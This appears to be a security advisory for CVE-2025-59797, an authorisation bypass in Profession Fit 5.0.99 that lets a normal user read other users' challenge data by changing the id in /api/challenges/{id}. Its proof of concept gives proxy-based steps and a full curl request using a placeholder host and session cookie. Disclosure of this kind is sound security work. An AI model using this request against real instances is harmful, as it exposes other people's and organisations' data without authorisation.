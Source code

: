 # CVE-2025-59797
Profession Fit 5.0.99 Build 44910 allows authorization bypass via a direct request for /api/challenges/{id} and also URLs for eversports, the user-management page, and the plane page.

Improper Access control often presents a serious security vulnerability as they can allow attackers to access resources or perform actions, they should not be able to. It was noted that the application  function such as eversports, challenges, user-management page and plane page are vulnerable to improper access control vulnerability allowing attacker to view other users/organizations information.

# Affected Product & Version
Profession Fit - 5.0.99 (Build 44910)

Reference: https://www.profession-fit.de/

# PoC

1. Start Interception in Burp suite or other proxy tools 
2. Login to the application as a normal user and go to challenges
3. if any challenges is created by your admin you will notice an GET request made to the endpoint /api/challenges/{id}
4. Send this request to repeater and change the id here with any value to see other challenge details for example 800, 948 etc.

cURL command
````
curl --path-as-is -i -s -k -X $'GET' \
    -H $'Host: INSTANCE-URL' -H $'X-Device-Timezone-Offset: +02:00' -H $'Sec-Ch-Ua-Platform: \"Linux\"' -H $'Accept-Language: en' -H $'Sec-Ch-Ua: \"Chromium\";v=\"139\", \"Not;A=Brand\";v=\"99\"' -H $'Sec-Ch-Ua-Mobile: ?0' -H $'X-Device-Timezone: Europe/Berlin' -H $'X-App-Version: Profession Fit 5.0.98' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36' -H $'Accept: */*' -H $'Sec-Fetch-Site: same-origin' -H $'Sec-Fetch-Mode: cors' -H $'Sec-Fetch-Dest: empty' -H $'Referer: https://INSTANCE-URL/webapp/challenge/{id’} -H $'Accept-Encoding: gzip, deflate, br' -H $'Priority: u=1, i' \
    -b $'_login_locale=en; PHPSESSID=COOKIE’ VALUE \
    $'https://INSTANCE-URL/api/challenges/{id}’
````

# Credits
This vulnerability was discovered by Rahul Kadavil of Henkel Cyber Security Team.

